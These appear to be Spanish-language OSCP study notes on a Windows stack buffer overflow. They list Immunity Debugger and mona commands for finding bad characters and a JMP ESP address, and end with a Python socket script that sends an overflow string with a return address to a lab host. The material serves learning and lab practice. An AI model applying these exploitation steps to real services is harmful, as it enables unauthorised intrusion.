 1º Se ejcuta el script
2º en inmunnity debugger ejecutamos `!mona config -set workingfolder RUTAWORKSPACE` Para configurar el entorno de trabajo
3º Ejecutamos `!mona bytearray -b "\x00"`
4º Vamos a window > CPU
4.1º Copiamos el valor del ESP en un bloc de notas
5º Ejecutamos `!mona compare -f RUTAWORKSPACE\bytearray.bin -a ESP`
6º Se genera una una ventana de dialogo y daremos click derecho > copy > badchars

### 2º Set de Badchars
Vamos a limpiar de falsos positivos (se suelen detectar por valores seguidos >> 11 12)

1º Vamos a ir desclasificando los numeros pero el 1º lo hemos limpiado

En este ejemplo tenemos esta cadena

00 11 12 40 41 5f 60 b8 b9 ee ef
El primer par ya esta limpio (\x00) asi que vamos a añadirle a ese par el siguiente par (\x00\x11)

Tambien en el script vamos a ir quitando los barchars de la cadena para ir examinandolos

2º Ejecutamos el script hasta que salte el error y el sistema pete
3º En cada crash copiamos el ESP y lo guardamos en un bloc
4º Ejecutamos `!mona bytearray -b “\x00\” (con el byte siguiente al primer par, ej "\x00\x11")`
5º Ejecutamos `!mona compare -f RUTAWORKSPACE\bytearray.bin -a ESP (con el anterior ESP copiado)`

Los badchars definitivos seran los ultimos badchars que nos han dado antes de la limpieza

# Find the right module

Link del script: [https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-right-module](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-right-module)

1º Ejecutamos en el debugger `!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"`
Y el resultado sera la direccion
NOTA: Tenemos que desmaximizar la ventana para ver el resultado

Script:
~~~~python
#!/usr/bin/python2.7
import sys, socket

shellcode = "A" * VALOR_DEL_OFFSET + "\xAF\x11\x50\x62" 
while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('10.10.10.111',3000))

        s.send(('FUNCION /.:/' + shellcode))
        s.close()

    except:
        print "Server error"
        sys.exit()
~~~~
